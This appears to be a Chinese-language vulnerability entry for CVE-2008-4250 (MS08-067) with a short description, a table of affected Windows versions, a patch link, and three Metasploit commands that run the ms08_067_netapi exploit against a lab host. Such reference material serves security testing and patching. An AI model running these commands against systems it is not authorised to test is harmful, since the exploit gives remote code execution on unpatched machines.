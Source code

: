 ### CVE-2008-4250

#### 描述

Pre-Beta中的Server服务允许远程攻击者通过精心设计的RPC请求执行任意代码，该请求会在执行以下操作时触发溢出路径规范化。

#### 影响版本

| Product             | Version | Update | Edition          | Tested |
| ------------------- | ------- | ------ | ---------------- | ------ |
| Windows 2000        |         | SP4    |                  |        |
| Windows Server 2003 |         | SP1    |                  |        |
| Windows Server 2003 |         | SP1    | Itanium          |        |
| Windows Server 2003 |         | SP2    |                  |        |
| Windows Server 2003 |         | SP2    | Itanium          |        |
| Windows Server 2003 |         | SP2    | X64              |        |
| Windows Server 2003 |         |        | X64              |        |
| Windows Server 2008 |         |        | X32              |        |
| Windows Server 2008 |         |        | X64              |        |
| Windows Server 2008 |         |        | Itanium          |        |
| Windows Vista       |         | SP1    | X64              |        |
| Windows Vista       |         |        |                  |        |
| Windows Vista       |         |        | X64              |        |
| Windows Vista       |         | SP1    |                  |        |
| Windows Xp          |         |        | Professional X64 |        |
| Windows Xp          |         | SP2    |                  |        |
| Windows Xp          |         | SP2    | Professional X64 |        |
| Windows Xp          |         | SP3    |                  |        |

#### 修复补丁

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2008-4250
```

#### 利用方式

使用msf 测试系统windows server 2003 sp2 x86

```
use exploit/windows/smb/ms08_067_netapi
set RHOST 192.168.1.14
run
```

![image-20200823143331505](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2008-4250_win2003_x86_msf.png?raw=true)